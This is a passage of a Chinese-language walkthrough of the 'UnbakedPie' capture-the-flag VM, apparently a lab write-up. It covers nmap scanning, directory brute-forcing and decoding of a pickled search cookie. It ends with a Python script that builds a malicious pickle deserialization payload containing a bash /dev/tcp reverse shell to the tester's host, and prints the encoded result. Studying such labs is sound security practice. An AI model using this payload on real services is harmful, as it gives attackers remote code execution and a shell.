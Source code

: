 # UnbakedPie

:::note

[Linux VM] [Tested on VirtualBox] created by || ch4rm

⏲️ Release Date // 2020-10-06

✔️ MD5 // 92707e4a6a76dbd738ef2dbe716fcf7c

☠ Root // 31

💀 User // 31

📝Notes //
Requires pivotting and owasp skills. Real life scenarios + a few ctf privesc. Made by ch4rm (@aniqfakhrul) & h0j3n (@h0j3n).

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.119
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.119
Host is up (0.00051s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
5003/tcp open  filemaker?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Date: Fri, 23 Feb 2024 07:34:15 GMT
|     Server: WSGIServer/0.2 CPython/3.8.6
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Vary: Cookie
|     Content-Length: 7453
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Set-Cookie: csrftoken=wTXfC78Rn0Mg5kXVjEgMPcru1ulwDoVy9t17wj5RmELJZElX5xkCYhkdB4HvTGmw; expires=Fri, 21 Feb 2025 07:34:15 GMT; Max-Age=31449600; Path=/; SameSite=Lax
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <meta name="description" content="">
|     <meta name="author" content="">
|     <title>[Un]baked | /</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom fonts for this template -->
|     <link href="/static/vendor/fontawesome-free/css/all.min.cs
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 23 Feb 2024 07:34:16 GMT
|     Server: WSGIServer/0.2 CPython/3.8.6
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Vary: Cookie
|     Content-Length: 7453
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Set-Cookie: csrftoken=r9a0Ot8xvhGgew8qiA5FC2X1Cgl2eiHHtB3YQizhqbxB1owpT998WDNvFlyn5HCf; expires=Fri, 21 Feb 2025 07:34:16 GMT; Max-Age=31449600; Path=/; SameSite=Lax
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <meta name="description" content="">
|     <meta name="author" content="">
|     <title>[Un]baked | /</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom fonts for this template -->
|_    <link href="/static/vendor/fontawesome-free/css/all.min.cs
```

## web 服务

![img](img/image_20240211-231132.png)

尝试进行目录爆破

```plaintext
[23:12:47] 200 -    5KB - /about
[23:12:50] 301 -    0B  - /accounts/login  ->  /accounts/login/
[23:12:58] 302 -    0B  - /admin/?/login  ->  /admin/login/?next=/admin/%3F/login
[23:12:58] 302 -    0B  - /admin/  ->  /admin/login/?next=/admin/
[23:12:59] 301 -    0B  - /admin/login  ->  /admin/login/
......
```

未得到有效信息

### 与搜索功能进行交互

在尝试使用搜索功能时，使用 `test` 作为关键词进行搜索，发现本地 Cookie 储存中出现

```plaintext
"gASVCAAAAAAAAACMBHRlc3SULg=="
```

并发现以下返回数据包

```plaintext
HTTP/1.1 200 OK
Date: Fri, 23 Feb 2024 13:00:51 GMT
Server: WSGIServer/0.2 CPython/3.8.6
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 4881
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  search_cookie="gASVCAAAAAAAAACMBHRlc3SULg=="; Path=/
Set-Cookie:  csrftoken=jywYAtaiwPVi0GDpUy243peCMIR3LVPtW5OTnzKTrPxgMWN02CyGeW5NKWKNOiUE; expires=Fri, 21 Feb 2025 13:00:51 GMT; Max-Age=31449600; Path=/; SameSite=Lax
```

产生进行解码

```python
import base64
import pickle

s = "gASVCAAAAAAAAACMBHRlc3SULg=="

s = pickle.loads(base64.b64decode(s))

print(s)
# test
```

可以确定远程服务存在 Python Pickle 序列化相关操作，尝试利用

### 生成反序列化恶意载荷

```python
import pickle, base64, os

create_shell_command = lambda: (os.system, ("bash -i>& /dev/tcp/192.168.56.102/9999 0>&1",))

print(base64.urlsafe_b64encode(pickle.dumps(create_shell_command())).decode())
# gASVRAAAAAAAAACMAm50lIwGc3lzdGVtlJOUjCxiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMTAyLzk5OTkgMD4mMZSFlIaULg==
```

将这个生成的恶意载荷投入浏览会话中，进行交互
